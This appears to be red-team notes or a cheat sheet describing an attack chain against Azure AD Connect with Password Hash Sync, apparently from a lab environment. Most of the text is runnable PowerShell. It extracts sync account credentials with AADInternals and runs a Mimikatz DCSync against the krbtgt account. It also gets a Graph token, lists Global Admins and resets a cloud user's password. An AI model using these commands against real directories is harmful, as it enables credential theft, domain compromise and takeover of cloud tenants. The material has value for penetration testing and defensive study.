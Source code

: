 - You can enumerate the server where Azure AD connect is installed using the following on-prem enumeration (assuming that the server is domain joined - which is the Microsoft recommended method)
- Using the ActiveDirectory module:
```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SamAccountName,Description | fl
```

- Or from Azure AD (below command uses the Azure AD module)
```
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

#### Lateral Movement - PHS - On-Prem Dominance


- Once the Azure AD connect server is compromised. Use the below commands from the AADInternals module to extract credentials.
```
Get-AADIntSyncCredentials
```



- Using the creds of MSOL_* account, we can run DCSync against the on-prem AD
```
runas /netonly /user:defeng.corp\MSOL_782bef6aa0a9 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:defeng\krbtgt /domain:defeng.corp /dc:defeng-dc.defeng.corp"'
```

Lateral Movement - PHS - On-Prem to Cloud


- Using the creds of Sync_* account, we can reset password for any user (including Global Administrators and even the user who created the tenant).
- Using the creds, request an access token for AADGraph and save it to cache
```
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force $creds = New-Object System.Management.Automation.PSCredential ("Sync_DEFENG- ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
```

- Next, enumerate the Global Admins
```
Get-AADIntGlobalAdmins
```

- To reset the password of an on-prem user that is synced to Azure AD we need the ImmutableId (Unique Identifier derived from on-prem GUID) for the user
```
Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
```

- Finally, reset the user's password.
```
Set-AADIntUserPassword -SourceAnchor "E2gG19HA4EaDe0+3LkcS5g==" - Password "SuperSecretpass#12321" -Verbose
```
- You can now access any Azure AD resource (like Azure portal) using the new password. For on-prem resources, the old password can be used.
